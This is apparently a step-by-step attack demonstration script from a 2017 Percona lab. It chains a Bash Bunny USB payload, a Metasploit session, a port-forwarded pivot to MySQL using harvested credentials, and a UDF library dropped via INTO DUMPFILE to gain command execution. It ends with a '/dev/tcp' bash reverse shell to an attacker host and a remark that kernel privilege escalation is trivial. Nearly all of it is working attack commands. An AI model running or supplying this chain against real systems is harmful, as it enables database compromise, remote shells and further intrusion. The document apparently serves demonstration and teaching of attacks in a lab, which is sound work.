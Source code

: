 .. Copyright 2017 Percona LLC / David Busby

#. Bashbunny payload is designed to work on Kali sana / debian Linux desktop running Gnome, paths in the ducky_script.txt will need chaging for your environment
#. Load the bashbunny with bashbunny/payloads/switch1/*
#. `sync` && eject bashbunny
#. Unplug bashbunny, slide switch to position 1
#. re-plug bashbunny, allow to run light will show green when done it should be at the point of MSFconsole running `exploit` to start the multi/handler
#. in a new tab `curl -skv http://172.16.33.2/vuln_webapp/images.php 2>/dev/null &`
#. msfconsole _should_ get a new session
#. You may want to demonstrate you can not reach 3306/tcp on 172.16.33.3 at this point e.g. `nc -v 172.16.33.3 3306`
#. In msfconsole run: `portfwd add -l 3306 -p 3306 -r 172.16.33.3`
#. Use credentials from `cat.sqli` in the meterepter session to run on the CnC / localhost `mysql -uvuln_webapp -ppluk`
#. In mysql run the follwing `show grants(); select whomami();`
#. In new tab settup a listener with netcat `nc -l 11457`
#. Head back to mysql client tab

#. mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp < udf_stager.sql 
#. mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp -e "SELECT @@GLOBAL.plugin_dir" 
#. mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp -e "SELECT payload FROM udf_stager INTO DUMPFILE '/usr/lib64/mysql/plugin/lib_mysqludf_sys.so'"

#. cat > udf_functions.sql << EOF
DROP FUNCTION IF EXISTS lib_mysqludf_sys_info;
DROP FUNCTION IF EXISTS sys_get;
DROP FUNCTION IF EXISTS sys_set;
DROP FUNCTION IF EXISTS sys_exec;
DROP FUNCTION IF EXISTS sys_eval;

CREATE FUNCTION lib_mysqludf_sys_info RETURNS string SONAME 'lib_mysqludf_sys.so';
CREATE FUNCTION sys_get RETURNS string SONAME 'lib_mysqludf_sys.so';
CREATE FUNCTION sys_set RETURNS int SONAME 'lib_mysqludf_sys.so';
CREATE FUNCTION sys_exec RETURNS int SONAME 'lib_mysqludf_sys.so';
CREATE FUNCTION sys_eval RETURNS string SONAME 'lib_mysqludf_sys.so';
EOF
#. mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp < udf_functions.sql 
#. mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp -e "SELECT sys_eval('id')" 
#. mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp -e "SELECT sys_eval('whoami')" 
#. mysql -h 172.16.33.2 -u vuln_webapp -ppluk vuln_webapp -e "SELECT sys_eval('bash -i >& /dev/tcp/172.16.33.1/11458 0>&1 &')"
#. VMs run an old kernel priv escalation at this point is trivial using existing exploitation vectors
